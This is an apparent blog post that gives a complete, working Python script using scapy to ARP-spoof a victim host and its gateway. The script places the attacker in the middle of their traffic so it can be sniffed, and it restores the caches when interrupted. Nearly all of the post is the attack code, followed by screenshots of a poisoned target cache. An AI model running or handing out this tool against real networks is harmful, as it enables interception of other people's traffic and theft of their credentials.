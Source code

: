 ```yaml
---
title: An ARP Spoof/Poison Program
date: 2021-06-12 10:45:47 +07:00
categories: python
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A Program to poison the ARP cache of a victim host.
---
```


<p align="left">
 <img src="https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arp_meme.jpg">
</p>


## This is a python script that poisons the ARP cache of a victim and the gateway/router to MITM and sniff data succesfully and resets the cache back upon hitting "CTRL+C".

- We sent the spoofed packets using the scapy.ARP() method. (Setting opcode=2 as a response)

- We print dynamically using the print function as follows: `print("\r CONTENT, end="")` (set a null char as delimiter rather than the default \n)

- Implemented a restore function to restore the arp cache.


### Code:

```python
#!/usr/bin/env python
import sys
import re
import scapy.all as scapy
import time
import re
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target_ip", dest="target_ip", help="Target IP address to MITM")
    parser.add_argument("-g", "--gateway_ip", dest="gateway_ip", help="Gateway/router's IP address to MITM")
    options = parser.parse_args()
    if not options.target_ip:
        # code to handle error
        parser.error("[-] Please specify an target ip, use --help for info.")
    if not options.gateway_ip:
         # code to handle error
         parser.error("[-] Please specify a gateway ip, use --help for info.")
    return options

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    clients_list = ""
    for element in answered_list:
        # use show method to view packet contents.
        clients_list += element[1].hwsrc
    return clients_list

def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    # use scapy.ls(scapy.ARP) to view fields
    # op=2 --> opcode for response , hwsrc automatically set to attackers
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    # count set to 4 to make sure cache is restored
    scapy.send(packet, count=4, verbose=False)

sent_packet_count = 0
options = get_arguments()
target_ip = options.target_ip
gateway_ip = options.gateway_ip

print("""
    
    ███████████████████████████████████████████████
    ██▀▄─██▄─▄▄▀█▄─▄▄─█─▄▄▄▄█▄─▄▄─█─▄▄─█─▄▄─█▄─▄▄─█
    ██─▀─███─▄─▄██─▄▄▄█▄▄▄▄─██─▄▄▄█─██─█─██─██─▄███
    ▀▄▄▀▄▄▀▄▄▀▄▄▀▄▄▄▀▀▀▄▄▄▄▄▀▄▄▄▀▀▀▄▄▄▄▀▄▄▄▄▀▄▄▄▀▀▀
    
""")

try:
    while(True):
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packet_count += 2
        # Dynamic printing
        print("\r[+] Packets sent: " + str(sent_packet_count), end="")
        #time.sleep(2)
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n\n\n Resetting ARP tables back to normal!")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)

```

### Output:

*Attacker:*

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arpspoof1.png)

*Target arp cache after cache poisoning:*

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arpspoof2.png)

*Target arp cache after hitting "CTRL+C" to restore cache:*

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arpspoof3.png)





